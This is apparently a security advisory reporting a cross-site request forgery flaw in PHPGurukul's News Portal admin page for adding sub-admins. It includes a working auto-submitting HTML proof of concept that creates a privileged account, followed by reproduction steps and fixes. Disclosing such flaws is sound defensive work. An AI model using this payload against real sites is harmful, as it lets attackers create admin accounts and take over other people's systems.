

## Cross-Site Request Forgery (CSRF) – Add Subadmin in News Portal Project in PHP and MySql in PHPGurukul

**Application:** News Portal Project in PHPGurukul
 **Endpoint:** `/news/admin/add-subadmins.php`
 **Method:** `POST`
 **Severity:** **High**
 **OWASP:** A01:2021 – Broken Access Control / A05:2021 – Security Misconfiguration

**Product Link:** https://phpgurukul.com/news-portal-project-in-php-and-mysql/

------

### Description

The `News Portal Project in PHPGurukul` is vulnerable to **Cross-Site Request Forgery (CSRF)** due to the absence of anti-CSRF protections on the admin endpoint responsible for creating sub-admin accounts. An attacker can craft a malicious HTML page that silently submits a forged POST request when visited by an authenticated user.
This allows unauthorized creation of sub-admin accounts **without the victim’s knowledge or consent**.

------

### Proof of Concept (PoC)

```
<!DOCTYPE html>
<html>
  <body onload="document.getElementById('go').click()">

    <form action="http://192.168.0.12/news/admin/add-subadmins.php" method="POST">
      <input type="hidden" name="sadminusername" value="CSRFUser">
      <input type="hidden" name="emailid" value="csrf@csrf.com">
      <input type="hidden" name="pwd" value="csrf123">
      <input type="hidden" name="submit" value="">
      <button id="go" type="submit" style="display:none;">Submit</button>
    </form>

  </body>
</html>
```

------

### Steps to Reproduce

1. Log in as an admin or sub-admin.
2. While authenticated, open the malicious HTML PoC file.
3. The form auto-submits the request.
4. A new sub-admin account is created successfully.



### Impact

- Unauthorized creation of privileged accounts
- Account and privilege abuse
- Full compromise of admin panel integrity
- Can be chained with broken access control for **critical impact**

------

### Root Cause

- No CSRF token implementation
- Sensitive action relies solely on session cookies
- No origin or referer validation

------

### Recommendation

- Implement CSRF tokens for all state-changing requests
- Validate user roles server-side before processing admin actions
- Reject requests missing valid CSRF tokens

### Discovered By

* **Mo Asim** also known as **Asim Qazi**
* Github: @Asim-Qazi
* Linkedin: [Asim Qazi](https://www.linkedin.com/in/masimqazi)
* Student | Security Researcher
